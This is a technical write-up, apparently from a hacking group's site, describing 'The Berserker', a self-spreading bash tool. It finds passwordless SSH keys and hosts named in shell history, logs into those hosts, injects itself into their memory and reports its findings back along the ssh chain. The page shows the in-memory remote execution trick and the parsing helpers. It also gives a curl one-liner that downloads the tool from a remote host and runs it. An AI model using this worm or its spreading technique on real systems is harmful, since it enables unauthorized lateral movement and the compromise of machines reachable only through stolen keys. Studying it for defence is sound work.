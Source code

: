 ```yaml
---
layout: default
title: The Berserker | How it works
decription: Technical details about how The Berserker works.
---
```


<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

Random notes on how [The Berserker](../) works.

## Executive Summary

[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

## General

The Berserker looks for any passwordless private ssh-key in `~/.ssh` and then gathers information from the User's shell history (`~/.bash_history`, `.zsh_history` and `~/.history`) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User `alice` starts The Berserker on host `Earth` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that `alice` frequently connects to `Mars` (as alice) and `Jupiter` (as root). The Berserker first connects to `Mars` and executes itself on `Mars`. Let's assume The Berserker finds no further ssh-keys on `Mars` and so it will not spread beyond `Mars`. Next it connects from `Earth` to `Jupiter`. It's a root login to `Jupiter` and The Berserker finds many ssh-keys from various users. One such user is `bob` who frequently connects to `Uranus` and from there to `Pluto`. Ultimately The Berserker will get to `Pluto` via a long ssh chain from `Earth`->`Jupiter`->`Uranus`->`Pluto`.

At this point the educated reader will realise that The Berserker is *deep penetrating* `Uranus`, e.g. `Uranus` gets owned even if firewalled or not being accessible from the Internet (but accessible from `Jupiter`).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to `Earth` (the *origin* where The Berserker started).

## Bash In-Memory execution

Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named `e.sh`.
1. Slurp the content into the variable `$S` after converting all `'` to `'"'"'`. That's a bit freaky but hold your beer.
1. I use the hex notation (`\x27`) of `'` here or otherwise it would look rather complicated (`sed` needs the `'` escaped so it is double-escaping time): `S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"`. Most readers would commit suicide at this point. This is just to escape `'` correctly so that it can be passed to `ssh` as a command via a variable (`SCRIPT='$S'`) without interfering with the `'` around the `$S`.
1. The long string `export SCRIPT='$S'; bash -c \"\$SCRIPT\"` is passed as a command to `ssh` to execute on the remote host. Note that the `$` in `\"\$SCRIPT\"` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute `$SCRIPT`. This is only needed because The Berserker needs to access the source of its own script (now stored in `$SCRIPT` to spread to further hosts). Otherwise `bash -c '$S'` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (piping a script with `dd` into a remote bash variable and executing the string from memory is a thing....).

## Bash Command line parsing

There is no efficient way to convert a command line string from `~/.bash_history` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records `ls foo\ bar` rather than what it actually executes (`exec("ls", "foo bar")`; note the missing `\`). This is a problem if there are history entries containing bash variables or escape sequences like `$HOME` or `\ ` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is `exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program `xargs` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used `xargs` to call `bash -c` and output each command line argument in a separate line and then convert this into a bash array:

```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable `line` now contains:

```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note: The double `eval eval` is needed. The first one convert the `${#}` to the integer number of the arguments passed to the bash by `xargs` and the second `eval` resolves the `~/` to the absolute directory name.

That format can now easily be split into an array like so:

```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```

 * Note how the *string* `MyArray` is passed as a function parameter (followed by the ssh command). Inside the function we use `eval` on that string to 'turn' the string-name (`MyArray`) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

## Bash stderr and $? catching

The Berserker needs to check the error output of `ssh` _and_ also needs the exit-code of `ssh` _and_ the standard output must pass through. The only way to do this in bash is to play file descriptor bonanza:

```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "ret=$ret, err=$err"
```

* The `echo 1>&2 "Hello-STDERR";` generates some test output to STDERR.
* The `exit 123;` is some test exit code (123).

The output is `ret=123, err=Hello-STDERR`.

## Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to `Earth` (the *origin*). A simple protocol is used to pass the information from the farthest `ssh` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above `Pluto` would pass the message back to `Uranus`, `Uranus` back to `Jupitor`, ... to `Mars`, ... to `Earth`. All protocol messages are then dispatched at the *origin* in `msg_dispatch()`. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with `BS_DEBUG_IS_SLAVE=1`:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:

```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

## If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

## Contact

{% include contact-details.md %}
